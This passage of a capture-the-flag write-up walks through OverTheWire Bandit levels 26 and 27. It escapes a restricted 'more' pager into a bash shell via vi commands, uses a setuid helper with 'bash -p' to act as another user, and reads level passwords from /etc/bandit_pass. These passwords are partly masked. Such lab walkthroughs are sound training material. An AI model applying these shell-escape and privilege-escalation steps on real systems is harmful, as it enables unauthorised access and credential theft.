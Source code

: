 It is using **more**. In interactive mode, we can pop a shell.
The file ``test.txt`` is too short so it can be print without interactive mode.
We need to resize our terminal's size to the smallest.
Then we will be able to execute commands : 
Press ``v`` touch,
``:set shell=/bin/bash`` and 
``:shell``

Now we have a bash shell !
```bash
bandit26@bandit:~$ id
uid=11026(bandit26) gid=11026(bandit26) groups=11026(bandit26)
bandit26@bandit:~$ ls
bandit27-do  text.txt
bandit26@bandit:~$ cat /etc/bandit_pass/bandit26 
c7GvcKlw---------FstuAIBw1o1
bandit26@bandit:~$
```

<br>

:closed_lock_with_key: Connect with ``bandit26`` user and password found.

```bash
ssh bandit26@bandit.labs.overthewire.org -p 2220
```

Username : ``bandit26``

Password  : ``c7GvcKlw9---------7nwFstuAIBw1o1``

<br>

## :star2: :star2: :star2: Level 27

> Good job getting a shell! Now hurry and grab the password for bandit27!

<br>

We have the setuid binary which can execute command as ``bandit27``.
Use it to spawn a shell and get the password for ``bandit27`` :
```bash
bandit26@bandit:~$ ./bandit27-do bash -p
bash-5.1$ 
bash-5.1$ id
uid=11026(bandit26) gid=11026(bandit26) euid=11027(bandit27) groups=11026(bandit26)
bash-5.1$ cd /etc/bandit_pass/
bash-5.1$ cat bandit27 
YnQpB---------k70ZmqkhUU2EuaS
bash-5.1$
```

<br>

:closed_lock_with_key: Connect with ``bandit27`` user and password found.

```bash
ssh bandit27@bandit.labs.overthewire.org -p 2220
```
